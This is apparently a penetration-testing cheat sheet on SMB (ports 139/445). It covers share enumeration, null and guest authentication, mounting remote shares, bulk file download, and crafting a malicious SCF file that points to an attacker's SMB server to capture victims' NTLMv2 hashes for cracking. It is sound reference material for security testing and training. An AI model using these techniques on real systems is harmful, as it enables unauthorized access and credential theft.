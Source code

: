 # SMB - 139/445

## SMB Information

### Port 139

Standing for Network Basic Input/Output System, NetBIOS is a networking industry standard developed by IBM, Microsoft, and Sytek. It is currently mostly used by Microsoft Windows operating systems to provide certain services to the other network hosts. NetBIOS provides services associated with the OSI model’s session layer, allowing applications on different computers to communicate over the local network. It also allows the proper transmission of data over the network. A NetBIOS name is up to 16 characters long and usually, separate from the computer name. Two applications start a NetBIOS session when one \(the client\) sends a command to “call” another client \(the server\) over **TCP Port 139**. 

Reference:

{% embed url="https://www.bitwarsoft.com/what-is-netbios.html" %}

### Port 445

While Port 139 is known technically as ‘NBT over IP’, Port 445 is ‘SMB over IP’. **SMB** stands for ‘**Server Message Blocks**’. Server Message Block in modern language is also known as **Common Internet File System \(cifs\)**. The system operates as an application-layer network protocol primarily used for offering shared access to files, printers, serial ports, and other sorts of communications between nodes on a network.

For instance, on Windows, SMB can run directly over TCP/IP without the need for NetBIOS over TCP/IP. This will use the port 445. On other systems, you’ll find services and applications using port 139. This means that SMB is running with NetBIOS over TCP/IP**.** 

### IPC$ Share

The IPC$ shares and interacts with other services via named pipes. The IPC$ share can contain the following information:

* Operating System 
* Parent Domain
* Local Users and Groups
* Available SMB shares
* Effective System Security Policies



## SMB List Shares <a id="smb-list-shares"></a>

### smbmap <a id="smbmap"></a>

List SMB shares permissions:

```text
smbmap -H 10.10.10.10
```

### smbclient <a id="smbclient"></a>

List SMB shares with smbclient:

```
smbclient -L 10.10.10.10
smbclient -L \\$ip -N --option='client min protocol=NT1'
```

### crackmapexec <a id="crackmapexec"></a>

List SMB shares with crackmapexec:

```text
crackmapexec smb 10.10.10.10 --shares
```

### enum4linux <a id="enum4linux"></a>

List SMB shares with enum4linux:

```text
enum4linux 10.10.10.10
```

## SMB Authentication <a id="smb-authentication"></a>

### smbmap <a id="smbmap-2"></a>

Authenticate to a domain controller SMB share with valid credentials:

```text
smbmap -d domain.name -u username -p password -H 10.10.10.10
smbmap -H 10.10.10.103 -u amanda -p Ashare1972
```

### smbclient <a id="smbclient-2"></a>

Authenticate as null:

```text
smbclient -U '' -L 10.10.10.10
```

Authenticate as the guest user:

```text
smbclient -U 'guest' -L 10.10.10.10
```

Authenticate as valid user \(type password on prompt\):

```text
smbclient -U 'username' -L 10.10.10.10
```

### crackmapexec <a id="crackmapexec-2"></a>

Authenticate as null:

```text
crackmapexec smb 10.10.10.10 --shares -u '' -p ''
```

Authenticate as a valid user with crackmapexec:

```text
crackmapexec smb 10.10.10.10 --shares -u username -p password
```

## SMB Protocol Error Fix <a id="smb-connect-to-share"></a>

Error Code:

```text
protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED
```

Some servers have an OLD SMBv1 protocol in use, to accept the connection we must specify the minimum protocol version we can accept with:

```text
smbclient //$ip/share -N --option='client min protocol=NT1'
```

You can also add the following to `/etc/samba/smb.conf` under the `[global]` section:

```text
client min protocol = NT1
```

If you modify its configuration file, you must restart the SMB daemon with:

```text
sudo /etc/init.d/smbd restart
```

## SMB Capture NTLMv2 with SCF <a id="smb-connect-to-share"></a>

**SCF** \(Shell Command File\) are simple files that can be used to perform a connection to the attacker machine by using the **SMB** protocol. The interesting purpose of that kind of file is that they can perform a small and limited set of operations, but can be executed when the user will browse the file, without the explicit necessity to execute it.

The attacker can take profit from this vulnerability to make a request to his own machine and then get the NTLMv2 hash of the victim.

Create a shared folder and let it open:

```text
impacket-smbserver share $(pwd) -smb2support
```

1. Create the malicious SCF file

   ```text
   [Shell]
   Command=2
   IconFile=\\10.10.10.11\share\pentestlab.ico
   [Taskbar]
   Command=ToggleDesktop
   ```

2. Copy the malicious file in the desired victim shared resource

Check the shared folder that you have created previously and if there is an interaction between the victim and the file, you will receive the NTLMv2 hash of the victim. You can then try to crack the hash with **john or hashcat.**

## SMB Connect to Share <a id="smb-connect-to-share"></a>

### smbmap <a id="smbmap-3"></a>

Recursively list the share:

```text
smbmap -R ShareName -H 10.10.10.10
```

### smbclient <a id="smbclient-3"></a>

We can connect to share with the following example:

```text
smbclient -L //10.10.10.10/ShareName
```

## SMB Connect via Different Port

Sometimes you may have a tunnel on another port, you may use the following example:

```text
smbclient -L target_ip --port=4455 --user=Administrator 
```

## SMB Mount Share <a id="smb-mount-share"></a>

Create a directory to mount the share:

```text
sudo mkdir -p /mnt/smb
```

Mount the remote share to your machines/host without credentials:

```text
sudo mount -t cifs //10.10.10.10/ShareName/ /mnt/smb
```

Mount with valid credentials method:

```text
sudo mount -t cifs -o 'user=username,password=pass' //10.10.10.10/sharename$ /mnt/share
sudo mount -t cifs -o username=amanda,password=Ashare1972 "//10.10.10.103/CertEnroll" /mnt
```

Mount with custom port:

```text
sudo mount -t cifs -o port=4455 //target_ip/Directory -o username=Administrator,password=Valid_Password /mnt/dir_name
```

Tip, if there are a few files \(not too much\) you might want to copy the files into your localhost:

```text
cp * /home/kali/htb/sizzle/loot/
```

## SMB Password Spray <a id="smb-password-spray"></a>

## SMB Usage Cheatsheet <a id="smb-usage-cheatsheet"></a>

Download all files recursively without prompts:

```text
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
```


